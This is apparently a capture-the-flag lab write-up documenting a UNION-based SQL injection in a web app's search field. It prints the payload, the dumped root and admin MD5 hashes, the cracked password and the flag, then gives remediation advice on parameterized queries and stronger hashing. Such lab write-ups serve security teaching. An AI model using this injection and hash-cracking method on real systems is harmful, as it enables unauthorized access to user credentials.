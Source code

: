 # Finding 01 - login - SQL injection

## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection 					vulnerability to SQL injection


## Detailed description of the exploit
From previous SQL injection attempts (findings 2 and 7), we have found a table named "Member_Brute_Force"... let's see if it helps.
In a search input field (images or members), let's use the following SQL command:

```1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default```
which yields :
```
1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default
ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin
```
Both root and admin have the same password, which look like it was hashed with md5...

Let's use our web tool again:
https://www.md5online.org/md5-decrypt.html
It gives us:
shadow

We can try to login with either combo (root/shadow and admin/shadow) :
We arrive on a page that says:
"The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 "

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068